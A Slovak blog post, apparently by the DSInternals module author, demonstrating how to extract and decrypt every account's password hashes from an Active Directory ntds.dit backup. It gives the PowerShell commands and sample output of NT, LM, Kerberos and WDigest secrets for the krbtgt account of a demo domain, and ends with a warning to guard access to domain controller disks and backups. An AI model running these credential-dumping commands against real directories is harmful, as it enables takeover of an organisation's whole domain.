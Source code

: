 ```yaml
---
id: 4531
title: Vykrádanie hesiel zo zálohy Active Directory
date: 2015-08-15T21:35:44+00:00
author: Michael Grafnetter
layout: revision
guid: https://www.dsinternals.com/4441-revision-v1/
permalink: /4441-revision-v1/
---
```

<p style="text-align: justify;">
  Nedávno som písal o&nbsp;príkaze <a href="https://www.dsinternals.com/sk/vykradanie-hesiel-z-active-directory-na-dialku/">Get-ADReplAccount</a>, pomocou ktorého je&nbsp;možné vzdialene vytiahnuť heslá a&nbsp;iné citlivé informácie z doménového kontroléru. Tieto dáta sú na&nbsp;každom doménovom kontroléri uložené v&nbsp;súbore <strong>ndts.dit</strong> a&nbsp;odtiaľ sa&nbsp;dajú získať aj&nbsp;napriamo. Dokáže to&nbsp;napríklad nástroj <a href="http://www.ntdsxtract.com/">NTDSXtact</a>, ale&nbsp;ten je&nbsp;určený pre&nbsp;Linux, nemá moc jednoduché ovládanie a na&nbsp;väčších databázach je&nbsp;dosť pomalý. Preto som do svojho <a href="https://www.dsinternals.com/sk/na-stiahnutie/">PowerShell modulu DSInternals</a> pridal príkaz <strong>Get-ADDBAccount</strong>, ktorého použitie je&nbsp;hračka:
</p>

<pre class="lang:ps decode:true"># Z&nbsp;registrov najprv získame tzv. Boot Key, ktorým sú heslá zašifrované:
$key = Get-BootKey -SystemHivePath 'C:\IFM\registry\SYSTEM'

# Načítame databázu a&nbsp;dešifrujeme heslá všetkých používateľov:
Get-ADDBAccount -All -DBPath 'C:\IFM\Active Directory\ntds.dit' -BootKey $key 

# Môžeme vytiahnuť aj&nbsp;heslo konkrétneho účtu, na&nbsp;základe distinguishedName, objectGuid, objectSid či&nbsp;sAMAccountName:
Get-ADDBAccount -DistinguishedName 'CN=krbtgt,CN=Users,DC=Adatum,DC=com' -DBPath 'C:\IFM\Active Directory\ntds.dit' -BootKey $key 
</pre>

<p style="text-align: justify;">
  Výstup vyzerá úplne rovnako ako v&nbsp;prípade príkazu <a href="https://www.dsinternals.com/sk/vykradanie-hesiel-z-active-directory-na-dialku/">Get-ADReplAccount</a>:
</p>

<pre class="nums:false lang:default highlight:0 decode:true">DistinguishedName: CN=krbtgt,CN=Users,DC=Adatum,DC=com
Sid: S-1-5-21-3180365339-800773672-3767752645-502
Guid: f58947a0-094b-4ae0-9c6a-a435c7d8eddb
SamAccountName: krbtgt
SamAccountType: User
UserPrincipalName:
PrimaryGroupId: 513
SidHistory:
Enabled: False
Deleted: False
LastLogon:
DisplayName:
GivenName:
Surname:
Description: Key Distribution Center Service Account
NTHash: 9b17bcfc3800df21baa6b8a4aeedb4fd
LMHash:
NTHashHistory:
  Hash 01: 9b17bcfc3800df21baa6b8a4aeedb4fd
  Hash 02: c9467e5fae14820500862d85c53747c1
LMHashHistory:
  Hash 01: 1a1d073fde1fca32c24f268fce835de2
  Hash 02: cc8019ecf6fdbcbe06849a9980804e8d
SupplementalCredentials:
  ClearText:
  Kerberos:
    Credentials:
      DES_CBC_MD5
        Key: cddf7308d6cd5d2a
    OldCredentials:
      DES_CBC_MD5
        Key: cddf7308d6cd5d2a
    Salt: ADATUM.COMkrbtgt
    Flags: 0
  KerberosNew:
    Credentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 69b11bfec0eec2b278702bc7d9fbfda23e3789128b92c59955e69932a457533b
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: bcfcc7a65379d7914c2c341a74ca0e0e
        Iterations: 4096
      DES_CBC_MD5
        Key: cddf7308d6cd5d2a
        Iterations: 4096
    OldCredentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 809b0f1697dffe39bb87b2e3d79564dc8ef91b91bad2fc51abc444e42c7e88d9
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: c30fb9e17cd7503f980592a6864c8daa
        Iterations: 4096
      DES_CBC_MD5
        Key: cddf7308d6cd5d2a
        Iterations: 4096
    OlderCredentials:
    ServiceCredentials:
    Salt: ADATUM.COMkrbtgt
    DefaultIterationCount: 4096
    Flags: 0
  WDigest:
    Hash 01: eee4408f94b35bb5dc7077747d9762a3
    Hash 02: 00be705a97c4a1ded7f7fc912ef70aec
    Hash 03: 7b0b14e8f5cfa2de25d04d393c649bb7
    Hash 04: eee4408f94b35bb5dc7077747d9762a3
    Hash 05: 00be705a97c4a1ded7f7fc912ef70aec
    Hash 06: cf102efea5397a51edc9202b922682e5
    Hash 07: eee4408f94b35bb5dc7077747d9762a3
    Hash 08: 5737a1de1f94d3f6e0dbbe4e3f173036
    Hash 09: 9314bbcd0f0f8ab2d3879287e739f621
    Hash 10: 973ff6673784ce0faa956d10952b0be0
    Hash 11: b04c5754a36b8edaac0dfd3c8b741d1a
    Hash 12: 9314bbcd0f0f8ab2d3879287e739f621
    Hash 13: decbd6b05ac2363ef7c772b42339fdab
    Hash 14: b04c5754a36b8edaac0dfd3c8b741d1a
    Hash 15: 71e248eae58d2f1f4b40baf412fde251
    Hash 16: 8f03fa2cf1cdbb300d0e0992fb5265e1
    Hash 17: 5032b686f9b0187115c5b56a4de89d1e
    Hash 18: eb804e4333521ee5e74241db4ecd7e5e
    Hash 19: c86f4816e80f0a590cb03f0b9aa8c04c
    Hash 20: 0e03a76194c6385754a1814384c99798
    Hash 21: db13be8eb45adad0984e5a68ea2dfe23
    Hash 22: db13be8eb45adad0984e5a68ea2dfe23
    Hash 23: 5b6bba9bae24a347108ad7267e1ac287
    Hash 24: e72cad8b0fc837d3e8de4ddc725eb81f
    Hash 25: c19dd7b576c43eec07ba475bd444f579
    Hash 26: 021c07151ece2de494402cf11f62a036
    Hash 27: d657b31bfcacb37443630759cc3a19bf
    Hash 28: 5d49708350e04b16ddc980a0c33c409b
    Hash 29: efe601100b7b4007fe3fa778499d5dda</pre>

<p style="text-align: justify;">
  Získané hashe hesiel sa&nbsp;dajú pomerne jednoducho využiť k&nbsp;ovládnutiu celého Active Directory forestu. Preto si&nbsp;dajte dobrý pozor na&nbsp;to, kto všetko má fyzický prístup k&nbsp;pevným diskom doménových kontrolérov, ich zálohám a&nbsp;v&nbsp;neposledom rade k&nbsp;VHD/VHDX/VMDK obrazom.
</p>